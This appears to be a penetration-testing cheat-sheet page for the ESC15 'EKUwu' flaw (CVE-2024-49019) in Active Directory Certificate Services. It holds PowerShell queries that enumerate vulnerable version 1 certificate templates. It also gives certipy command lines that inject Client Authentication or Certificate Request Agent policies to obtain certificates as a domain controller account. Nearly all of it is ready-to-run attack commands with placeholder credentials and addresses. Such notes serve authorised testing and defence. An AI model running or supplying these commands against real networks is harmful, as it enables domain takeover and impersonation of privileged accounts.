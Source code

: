 ```yaml
---
description: Inject Application Policies into Version 1 Certificate Templates (CVE-2024-49019)
---
```


# ESC15 (EKUwu)

- [https://trustedsec.com/blog/ekuwu-not-just-another-ad-cs-esc](https://trustedsec.com/blog/ekuwu-not-just-another-ad-cs-esc)




## Enumerate

Get enabled templates:

```powershell
PS > $enabledTemplates = Get-ADObject -LDAPFilter "(&(objectClass=pKIEnrollmentService))" -SearchBase "CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,$((Get-ADRootDSE).rootDomainNamingContext)" -Properties certificateTemplates | select -ExpandProperty certificateTemplates
```

Get v1 templates with `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` that are enabled:

```powershell
PS > Get-ADObject -Filter 'objectClass -eq "pKICertificateTemplate"' -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,$((Get-ADRootDSE).rootDomainNamingContext)" -Property name,msPKI-Template-Schema-Version,msPKI-Certificate-Name-Flag | ? {$_.'msPKI-Template-Schema-Version' -eq 1 -and ($_.'msPKI-Certificate-Name-Flag' -band 0x00000001)} | ? {$enabledTemplates -contains $_.name}
```




## Exploit



### ESC15 → ESC1

Abusing **Client Authentication**:

```
$ proxychains4 certipy req -u snovvcrash@megacorp.local -p 'Passw0rd!' -ca CorpCA -target CA01.megacorp.local -target-ip 192.168.1.12 -template VulnTemplate --application-policies '1.3.6.1.5.5.7.3.2' -upn 'DC01$@megacorp.local' -sid <DC01_SID> -ns 192.168.1.11 -dc-ip 192.168.1.11 -dns-tcp
```



### ESC15 → ESC3

Abusing **Certificate Request Agent**:

```
$ proxychains4 certipy req -u snovvcrash@megacorp.local -p 'Passw0rd!' -ca CorpCA -target CA01.megacorp.local -target-ip 192.168.1.12 -template VulnTemplate --application-policies '1.3.6.1.4.1.311.20.2.1' -ns 192.168.1.11 -dc-ip 192.168.1.11 -dns-tcp
$ proxychains4 certipy req -u snovvcrash@megacorp.local -p 'Passw0rd!' -pfx snovvcrash.pfx -ca CorpCA -target CA01.megacorp.local -target-ip 192.168.1.12 -template User -on-behalf-of 'MEGACORP\DC01$' -ns 192.168.1.11 -dc-ip 192.168.1.11 -dns-tcp
```
